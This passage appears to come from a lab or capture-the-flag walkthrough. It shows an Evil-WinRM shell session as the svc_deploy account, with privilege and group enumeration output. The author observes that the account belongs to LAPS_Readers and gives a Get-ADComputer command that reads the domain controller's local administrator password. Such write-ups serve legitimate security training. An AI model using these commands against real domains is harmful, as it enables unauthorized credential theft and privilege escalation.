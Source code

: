 ```

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 
```

I'll do manual check again

```
*vil-WinRM* PS C:\Users\svc_deploy\Documents> net user svc_deploy
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 11:12:37 AM
Password expires             Never
Password changeable          10/26/2021 11:12:37 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   10/25/2021 11:25:53 AM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *LAPS_Readers         *Domain Users
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc_deploy\Documents> 
```

The user `svc_deploy` is among the `LAPS_Readers` group. This group can read the local administrator password

To read the LAPS password, I just need to use `Get-ADComputer` and specifically request the `ms-mcs-admpwd`property:

```
Command: Get-ADComputer DC01 -property 'ms-mcs-admpwd'
```
